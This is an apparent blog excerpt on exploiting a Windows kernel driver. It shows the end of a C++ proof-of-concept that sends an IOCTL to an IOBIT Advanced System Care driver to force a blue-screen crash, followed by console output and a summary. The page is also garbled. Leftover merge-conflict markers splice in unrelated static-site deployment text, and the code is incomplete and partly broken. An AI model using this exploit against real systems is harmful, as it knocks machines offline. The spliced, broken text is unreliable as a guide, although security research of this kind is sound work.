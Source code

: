 ```c++

	DWORD Expl[0x1000];

	// EIP 0x81f94d14

	printf("[+] Calling DeviceIoControl to Load TOCTL Code\n");
	Sleep(500);


	DWORD shellCode[256] = {};


	if (DeviceIoControl(hDevice, IOCTL, (LPVOID)0, 0x3, NULL, 0, &byteRetn, NULL)) {
		fprintf(stdout, "[+] SuccessFully Called IOCTL Using DeviceIoControl %p \n", IOCTL);
    printf("[+] Causing BSOD\n")
	}
	else {
		fprintf(stderr, "[-] Error Calling IOCTL Using DeviceIoControl\n");
	}


	CloseHandle(hDevice);


	return 0;

};
```
###### Results: 
```batch
C:\Users\Rashid>exploit.exe
[+] Exploit Title: IOBIT Advanced System Care 16.0 DOS Exploit
[+] Vulnerability Title: CWE-782 - Exposed IOCTL with Insufficient Access Control
[+] Exploit Author: RashidKhan Pathan (iHexCoder)
[+] Version: 16.1.0.106
[+] Tested On: Windows 10 Pro x86/x64 Bit 1607 (OS Build 14393.2189), 20H2 Also
[+] Version: 16.1.0.106
[+] Calling DeviceIoControl to Load TOCTL Code
[+] SuccessFully Obtained Device Driver Handle %p
[+] Causing BSOD
```

=======
Unless you specified the output path, the generated site files will be placed in folder `_site`{: .filepath} of the project's root directory. Now you should upload those files to the target server.
>>>>>>> 717659d66ef1f68505417fbc8498b88bdbbb1f09

-------------------------
### Summary
##### What we have learned so far?
we have learned about the process of reverse engineering and exploiting a vulnerable Windows kernel driver. The article provides a step-by-step guide on how to exploit the driver to trigger a denial-of-service (DoS) attack
